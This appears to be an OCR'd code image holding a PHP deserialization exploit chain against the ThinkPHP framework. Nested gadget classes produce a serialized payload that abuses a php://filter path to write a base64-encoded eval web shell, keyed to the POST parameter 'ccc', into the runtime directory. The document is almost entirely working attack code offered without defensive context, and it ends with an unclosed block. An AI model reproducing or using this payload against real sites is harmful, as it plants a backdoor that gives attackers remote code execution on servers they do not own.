 ```php
namespace think\db {
    class Query {
        protected $model;

        function __construct($model)
        {
            $this->model = $model; //$this->model=> think\console\Output;
        }
    }
}
namespace think\console{
    class Output{
        private $handle;
        protected $styles;
        function __construct($handle)
        {
            $this->styles = ['getAttr'];
            $this->handle =$handle; //$handle->think\session\driver\Memcached
        }

    }
}
namespace think\session\driver {
    class Memcached
    {
        protected $handler;

        function __construct($handle)
        {
            $this->handler = $handle; //$handle->think\cache\driver\File
        }
    }
}

namespace think\cache\driver {
    class File
    {
        protected $options=null;
        protected $tag;

        function __construct(){
            $this->options=[
                'expire' => 3600,
                'cache_subdir' => false,
                'prefix' => '',
                'path'  => 'php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode/resource=aaaPD9waHAgQGV2YWwoJF9QT1NUWydjY2MnXSk7Pz4g/../runtime/temp/a.php',
                'data_compress' => false,
            ];
            $this->tag = 'xxx';
        }

    }
}

namespace {
    $Memcached = new think\session\driver\Memcached(new \think\cache\driver\File());
    $Output = new think\console\Output($Memcached);
    $model = new think\db\Query($Output);
    $HasOne = new think\model\relation\HasOne($model);
    $window = new think\process\pipes\Windows(new think\model\Pivot($Output,$HasOne));
    echo urlencode(serialize($window));

```